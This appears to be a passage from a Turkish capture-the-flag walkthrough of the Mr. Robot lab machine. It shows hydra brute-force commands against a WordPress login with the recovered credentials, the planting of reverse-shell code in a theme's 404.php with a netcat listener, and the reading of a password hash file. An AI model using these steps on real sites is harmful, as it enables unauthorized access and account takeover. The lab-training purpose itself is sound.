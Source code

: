 ```bash
http://Machine_IP/fsocity.dic
```
İndirilen wordliste baktığımızda tekrar eden değerler görüyoruz. Wordliste aşağıdaki işlemleri yaparak daha kısa bir wordlist elde ediyoruz.
```bash
sort fsocity.dic | uniq > fsocity-uniq.txt
```
## 7.Adım Bruteforce
Gobuster ile bulduğumuz /wp-login sayfasına hydra aracı ile bruteforce atarak username ile şifreyi buluyoruz. 

İlk olarak kullanıcı adını bulmak için:
```bash
hydra -L fsocity-uniq.txt -p 1234 Machine_IP http-post-form "/wp-login.php:log=^USER^&pwd=1234&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.13.252%2Fwp-admin%2F&testcookie=1:Invalid username" -t 30  
```
Sonuç :
```bash
[80][http-post-form] host: Machine_IP   login: elliot   password: 1234
```
İkinci olarak şifreyi bulmak için :
```bash
hydra -l elliot -P fsocity-uniq.txt Machine_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=The password" -t 30
```
Sonuç :
```bash
[80][http-post-form] host: Machine_IP   login: elliot   password: ER28-0652
```
## 8.Adım Wordpress Üzerinden Shell Erişimi
Wordpress'e giriş yaptıktan sonra, Appearance editörde reverse shell kodu yükleyebildiğimizi görüyoruz. 404.php dosyasına reverse shell kodlarını ekleyip güncelledik. Netcat dinlemesi başlattık ve ilgili sayfaya gidiyoruz:
Netcat dinlemesi :
```bash
nc -nvlp 1234
```
İlgili sayfaya gidiyoruz :
```bash
http://Machine_IP/wp-content/twentyfifteen/404.php
```
Shell erişimi sağlıyoruz :
`/home/robot` dizinine gidip flag'i okumaya çalıştık. Ancak, `key-2-of-3.txt` dosyasına erişemedik. `password.raw-md5` dosyasını okuduktan sonra hash'ini kırarak robot kullanıcısının parolasını bulduk:
```bash
$ pwd
/home/robot
$ ls
key-2-of-3.txt
password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
`c3fcd3d76192e4007dfb496cca67e13b` hashini kırıyoruz ve şifreyi elde ediyoruz : `abcdefghijklmnopqrstuvwxyz
`
su robot yapinca hata aliyoruz o yuzden python ile interaktif terminal aciyoruz ve 2. flagi buluyoruz :
```bash
$ su robot
su: must be run from a terminal
```